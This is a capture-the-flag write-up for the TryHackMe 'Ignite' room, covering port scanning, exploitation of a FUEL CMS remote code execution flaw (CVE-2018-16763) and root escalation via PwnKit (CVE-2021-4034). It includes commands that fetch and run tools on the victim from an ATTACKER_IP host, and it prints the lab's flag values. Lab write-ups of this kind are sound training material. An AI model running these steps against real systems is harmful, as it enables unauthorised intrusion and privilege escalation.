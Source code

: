 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/ignite/","tags":["CTF","write-up","LFI","RCE","SUID"]}
---
```


![Pasted image 20240920115253.png|200](/img/user/attachments/Pasted%20image%2020240920115253.png)
Root the box! Designed and created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471), built by [Paradox](https://tryhackme.com/p/Paradox).

---
# Active reconnaisance
## Enum ports and services
Run an full scan
```shell
sudo nmap 10.10.140.16 -p- -n --min-rate 5000 -sS --open -vvv
```

```c
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 61
```
## OS
Based in the ttl `61`, could be a linux machine
system Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 16.04.6 LTS

---
# Vuln analisis
## Port 80
```c
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```
![Pasted image 20240920121719.png|400](/img/user/attachments/Pasted%20image%2020240920121719.png)
From the robots file and the webpage we know that the subdirectory `fuel` exists
### fuel
![Pasted image 20240920122454.png|400](/img/user/attachments/Pasted%20image%2020240920122454.png)
Login with the credentials from the main page
![Pasted image 20240920125300.png|600](/img/user/attachments/Pasted%20image%2020240920125300.png)
We are in the admin dashboard
![Pasted image 20240920125339.png|400](/img/user/attachments/Pasted%20image%2020240920125339.png)
Anyway I'll try to find doing fuzzing
```shell
wfuzz -c -t 100 --hc=404,403 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.140.16/FUZZ
```
### assets
We found `assets` and it's forbidden

---
# Exploitation
## CVE-2018-16763
Looking for Fuel 1.4.1 on `searchsploit` we found a [[RCE\|RCE]] vulnerability associated to the CVE-2018-16763
![Pasted image 20240921084919.png](/img/user/attachments/Pasted%20image%2020240921084919.png)
![Pasted image 20240921084949.png|500](/img/user/attachments/Pasted%20image%2020240921084949.png)
NIST show more information
![Pasted image 20240921085153.png|600](/img/user/attachments/Pasted%20image%2020240921085153.png)
Using the exploit we have a shell
```shell
python 50477.py -u http://10.10.209.122
```
![Pasted image 20240921091135.png|400](/img/user/attachments/Pasted%20image%2020240921091135.png)

Get the first flag
![Pasted image 20240921114219.png|400](/img/user/attachments/Pasted%20image%2020240921114219.png)
> [!check]- flag.txt
> 6470e394cbf6dab6a91682cc8585059b

---
# Privilege Escalation
Enumerating 
systemLinux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 16.04.6 LTS
## Runing linpeas on the system
1. On the attacker machine get the file
```shell
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
2. Start a python server
   `python3 -m http.server 4747`
3. On the victim machine get the file and make it executable
```shell
wget http://ATTACKER_IP:4747/linpeas.sh
chmod +x linpeas.sh
```
4. Run it and save it in a txt file
```shelll
./linpeas.sh > linpeas_scan.txt
```
## CVE-2021-4034
From LinPeas we have  this suggestion
```
Executing Linux Exploit Suggester
https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit
   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have pkexec installed and as SUID
![Pasted image 20240923172901.png|600](/img/user/attachments/Pasted%20image%2020240923172901.png)

The exploit from `LinPeas` doesn't work, but searching another option I found this exploit written in `python`
https://github.com/Almorabea/pkexec-exploit
After getting to the victim machine, the exploit works.
![Pasted image 20240923172233.png|500](/img/user/attachments/Pasted%20image%2020240923172233.png)
![Pasted image 20240923172249.png|80](/img/user/attachments/Pasted%20image%2020240923172249.png)
And finally capture the root flag.
![Pasted image 20240923172354.png|400](/img/user/attachments/Pasted%20image%2020240923172354.png)
> [!check]- root.txt
> b9bbcb33e11b80be759c4e844862482d

---